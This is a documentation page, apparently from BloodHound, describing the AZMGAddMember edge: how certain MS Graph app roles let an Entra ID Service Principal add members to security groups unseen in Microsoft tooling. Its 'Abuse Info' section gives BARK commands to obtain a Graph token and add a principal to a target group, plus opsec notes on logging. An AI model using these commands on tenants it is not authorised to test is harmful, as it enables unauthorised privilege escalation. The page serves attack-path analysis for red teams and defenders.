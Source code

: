 ```yaml
---
title: AZMGAddMember
description: "This edge is created during post-processing."
---
```

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>

It is created against non-role assignable Entra ID security groups when a Service Principal has one of the following MS Graph app role assignments:

* Directory.ReadWrite.All
* Group.ReadWrite.All
* GroupMember.ReadWrite.All

It is created against all Entra ID security groups, including those that are role assignable, when a Service Principal has the following MS Graph app role:

* RoleManagement.ReadWrite.Directory

You will not see this privilege when using the Azure portal or any other Microsoft tooling. If you audit the roles and administrators affecting any particular Entra ID security group, you will not see that the Service Principal can add members to the group, but it indeed can because of the parallel access management system used by MS Graph.

## Abuse Info

You can abuse this privilege using BARK’s Add-AZMemberToGroup function.

This function requires you to supply an MS Graph-scoped JWT associated with the Service Principal that has the privilege to add principal to the target group. There are several ways to acquire a JWT. For example, you may use BARK’s Get-MSGraphTokenWithClientCredentials to acquire an MS Graph-scoped JWT by supplying a Service Principal Client ID and secret:

```bash
$MGToken = Get-MSGraphTokenWithClientCredentials `
    -ClientID "34c7f844-b6d7-47f3-b1b8-720e0ecba49c" `
    -ClientSecret "asdf..." `
    -TenantName "contoso.onmicrosoft.com"
```
Then use BARK’s Add-AZMemberToGroup function to add a new principial to the target group:

```bash
Add-AZMemberToGroup `
    -PrincipalID = "028362ca-90ae-41f2-ae9f-1a678cc17391" `
    -TargetGroupId "b9801b7a-fcec-44e2-a21b-86cb7ec718e4" `
    -Token $MGToken.access_token
```
Then, you can re-authenticate as the principal you just added to the group and continue your attack path, now having whatever privileges the target group has.

## Opsec Considerations
The Azure activity log for the tenant will log who added what principal to what group, including the date and time.

## References

* [https://attack.mitre.org/techniques/T1098/](https://attack.mitre.org/techniques/T1098/)
* [https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5](https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5)
* [https://github.com/BloodHoundAD/BARK](https://github.com/BloodHoundAD/BARK)
